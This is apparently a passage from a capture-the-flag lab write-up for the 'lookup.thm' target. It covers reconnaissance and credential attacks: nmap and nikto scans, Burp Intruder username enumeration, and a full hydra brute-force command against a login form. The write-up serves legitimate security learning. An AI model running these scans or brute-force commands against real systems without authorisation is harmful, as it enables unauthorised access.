 ![Hosts File](hosts.png)

---

### 🔎 Nmap Scan / Port Scanning

Run a full port scan with service and version detection:

```bash
sudo nmap -T4 -n -sC -sV -Pn -p- -oN fastscan.txt lookup.thm
```

![Nmap Scan Screenshot](nmap_scan.png)

---

### 🕵️ Nikto Scan

Scan for web vulnerabilities:

```bash
nikto -h http://lookup.thm/ -o nikto_scan.txt
```

![Nikto Scan](nikto.png)

---

### 🧰 Burp Suite Enumeration

Use Burp Suite Intruder to enumerate usernames:

![Burp Intruder](browser_intruder.png)

- Found valid username:
  ![Username Correct](username_correct_Burp.png)
- Testing other usernames:
  ![Wrong Username/Password](username_password_wrong_burp.png)

---

### 🔓 Hydra Brute Force

#### Find Usernames

```bash
hydra -L /usr/share/wordlists/rockyou.txt -p admin lookup.thm http-post-form "/login.php:username=^USER^&password=^PASS^:F=wrong username or password" -V
```

![Finding Username](finding_username.png)

- Discovered users:
  1. admin
  2. jose
